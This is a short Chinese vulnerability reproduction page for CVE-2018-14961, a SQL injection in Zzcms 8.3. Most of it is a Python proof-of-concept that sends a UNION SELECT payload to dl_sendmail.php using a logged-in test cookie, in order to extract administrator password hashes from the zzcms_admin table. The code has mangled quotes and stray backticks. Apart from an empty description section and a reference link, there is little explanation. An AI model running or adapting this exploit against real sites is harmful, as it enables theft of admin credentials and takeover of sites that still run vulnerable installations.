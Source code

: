 ```yaml
---
title: （CVE-2018-14961）Zzcms 8.3 前台sql注入
id: zhfly3314
---
```


# （CVE-2018-14961）Zzcms 8.3 前台sql注入

## 一、漏洞简介

## 二、漏洞影响

Zzcms 8.3

## 三、复现过程

```
#!/usr/bin/env python
#Author:Sublime
#coding:utf-8
import requests as req

url = “[http://0-sec.org:8080/dl/dl_sendmail.php](http://0-sec.org:8080/dl/dl_sendmail.php)”

cookies = {‘UserName’:‘test’,‘PassWord’:‘81dc9bdb52d04dc20036dbd8313ed055’}

data = { ‘sql’:‘select email from zzcms_dl where id=-1 union select pass from zzcms_admin #’} `q = req.post(url,data,cookies=cookies,allow_redirects=False)

print q.status_code

print q.content` 
```

测试结果为：

![image](../img/8596803711a0012a3cd1aca4bbda0e81.png)

## 参考链接

> https://www.anquanke.com/post/id/156660